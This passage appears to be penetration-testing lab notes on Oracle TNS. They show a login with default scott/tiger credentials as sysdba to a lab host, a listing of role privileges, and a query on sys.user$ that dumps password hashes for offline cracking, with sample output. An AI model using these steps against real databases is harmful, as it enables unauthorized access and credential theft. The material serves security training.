 Oracle TNS

```shell-session
sqlplus scott/tiger@10.129.204.235/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
```

list the user priv
```

SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

We can follow many approaches once we get access to an Oracle database. It highly depends on the information we have and the entire setup. However, we can not add new users or make any modifications. From this point, we could retrieve the password hashes from the `sys.user$` and try to crack them offline. The query for this would look like the following:

#### Oracle RDBMS - Extract Password Hashes

Oracle TNS

```shell-session
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

```
